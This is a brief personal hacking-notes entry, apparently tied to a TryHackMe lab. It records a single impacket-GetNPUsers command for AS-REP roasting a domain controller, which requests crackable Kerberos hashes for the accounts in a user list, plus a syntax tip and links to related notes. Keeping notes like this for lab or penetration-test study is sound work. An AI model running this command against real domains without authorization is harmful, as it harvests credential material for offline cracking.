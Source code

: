 # impacket ASREP roast with Get-NPUsers
note that the domain must end in a /
```bash
impacket-GetNPUsers -request -usersfile users -dc-ip $IP LAB.ENTERPRISE.THM/
```

# Related

- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:

    #command #hacking #impacket 
